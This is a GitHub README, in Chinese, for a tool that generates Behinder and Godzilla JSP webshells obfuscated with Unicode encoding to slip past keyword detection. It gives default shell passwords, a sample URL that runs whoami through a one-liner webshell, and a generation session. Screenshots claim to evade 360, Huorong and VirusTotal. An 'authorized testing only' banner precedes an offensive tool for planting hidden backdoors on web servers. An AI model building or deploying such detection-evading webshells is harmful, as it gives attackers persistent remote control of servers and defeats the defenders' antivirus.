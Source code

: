 >在 GBByPass 的基础上增加了自定义冰蝎和一句话密码的功能
https://github.com/czz1233/GBByPass


```
*************************警 告*****************************
本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!
***********************************************************

1、Godzilla java_aes_raw 连接默认密码为: 1
2、Behinder默认密码为: baihua666
3、生成绕不过阿里云检测 http://XXX:8080/xxx.jsp?baihua666=whoami

[*] 输入密码或回车(使用默认值): P#xdd5d
[*] 一句话、冰蝎, 密码为: P#xdd5d

[+] 输入 '1' 生成Godzilla;
[+] 输入 '2' 生成Behinder;
[+] 输入 '3' 生成绕不过阿里云检测一句话：
2
[*] 生成中... 密码： P#xdd5d
[+] Succussfully
```


# GBByPass
冰蝎 哥斯拉 webshell bypass 原理通过Unicode编码绕过关键字
# 更新哥斯拉
## 哥斯拉效果图
![](images/godz.png)
## 360 
![](images/360.png)
## 火绒
![](images/fir.png)
## virustotal
![](images/img.png)
## webdir+
![](images/webdir+.png)



## Stargazers over time

[![Stargazers over time](https://starchart.cc/h0nayuzu/WebshellBypass.svg)](https://starchart.cc/h0nayuzu/WebshellBypass)
